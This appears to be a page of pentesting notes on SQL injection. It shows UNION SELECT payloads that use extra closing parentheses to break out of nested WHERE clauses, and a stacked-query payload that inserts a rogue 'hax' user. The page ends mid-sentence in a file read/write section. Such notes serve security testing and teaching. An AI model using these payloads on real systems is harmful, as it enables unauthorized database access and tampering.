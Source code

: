 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Other

## SQL Parser Tolerance

SQL parsers in many databases are **tolerant of extra parentheses**; they are treated as valid syntax even if they don't pair with opening parentheses. For instance, if we are testing an application that we have control of the `name` parameter and we infer that the query looks something like this:

```sql
SELECT id, name, description, price
FROM products
WHERE (name LIKE '%z%' AND active = true)
ORDER BY id ASC;
```

we can add one or more closing parentheses to account for extra nesting:

```sql
// payload
z')union+select+1,version(),3,4--+;
```

{% code overflow="wrap" %}
```sql
// results in 500
WHERE (name LIKE '%z')union+select+1,version(),3,4--+; AND active = true) ORDER BY id ASC;
```
{% endcode %}

```sql
// payload
z'))union+select+1,version(),3,4--+;
```

{% code overflow="wrap" %}
```sql
// results in 200
WHERE (name LIKE '%z'))union+select+1,version(),3,4--+; AND active = true) ORDER BY id ASC;
```
{% endcode %}

## Stacked Queries

Some RDBMS[^1]s can execute more than one query at a time: these queries are submitted simultaneously, but executed sequentially. An RDMS might execute only the first query while another execute only the last.

A common vector of exploiting stacked queries is to add, update, or delete data as these types of queries don't return results if successfully executed.

```sql
// payload
10; insert into users(id, username, password) values (1001,'hax','hax');
```

## Reading/Writing Files

For PostgreSQL see here.

For&#x20;

[^1]: Relation Database Management System
